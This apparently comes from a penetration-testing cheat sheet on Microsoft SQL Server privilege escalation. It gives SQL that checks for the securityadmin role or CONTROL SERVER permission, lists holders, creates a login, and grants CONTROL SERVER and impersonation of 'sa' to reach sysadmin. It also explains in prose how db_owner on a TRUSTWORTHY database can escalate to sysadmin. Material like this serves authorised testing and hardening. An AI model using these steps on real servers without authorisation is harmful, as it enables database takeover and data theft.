 ###### securityadmin role / "CONTROL SERVER" permission to sysadmin

The `securityadmin` role or the `CONTROL SERVER` permission can be exploited to
gain `sysadmin` access.

Indeed the `CONTROL SERVER` permission can be used to grant the permission to
impersonate an user with the `sysadmin` role, such as `sa`. While the
`securityadmin` role can *not* assign user roles, the role can be used to
create an account and assign it the `CONTROL SERVER` permission.

```sql
-- Is the current user securityadmin / has the "CONTROL SERVER" permission
-- SELECT system_user; SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID;
SELECT IS_SRVROLEMEMBER('securityadmin')
SELECT HAS_PERMS_BY_NAME(null, null, 'CONTROL SERVER');

-- List users with the securityadmin role
exec sp_helpsrvrolemember @srvrolename='securityadmin'
SELECT 'Name' = sp.NAME,sp.is_disabled AS [Is_disabled] FROM sys.server_role_members rm inner join sys.server_principals sp on rm.member_principal_id = sp.principal_id WHERE rm.role_principal_id = SUSER_ID('securityadmin')

-- List users with the "CONTROL SERVER" permission
SELECT login.name, perm.permission_name, perm.state_desc FROM sys.server_permissions perm JOIN sys.server_principals login ON perm.grantee_principal_id = login.principal_id WHERE permission_name = 'CONTROL SERVER';

-- SQL query to create an user
CREATE LOGIN [<USERNAME>] WITH PASSWORD = '<PASSWORD>';
GO

-- From the user with the securityadmin role
GRANT CONTROL SERVER TO [<USERNAME>];
GO

-- From user with the "CONTROL SERVER" permission
GRANT IMPERSONATE ON LOGIN::<sa | USER_SYSADMIN> TO [<USERNAME>];
GO
```

###### TRUSTWORTHY database db_owner role to sysadmin

Having the `db_owner` role in a `TRUSTWORTHY` database (a database with the
`TRUSTWORTHY` property set to true) owned by a user that has the `sysadmin`
role can be leveraged to escalate privileges to `sysadmin`.

Indeed a stored procedure, declared by a database owner, that is set to
`EXECUTE AS OWNER` will, during execution, acquire the server level permissions
of the actual database owner if the database's `TRUSTWORTHY` property is set.
Thus, if a database is `TRUSTWORTHY` and owned by an user having the
`sysadmin` role, any user having the `db_owner` role on the database can
elevate its privileges to `sysadmin`.   
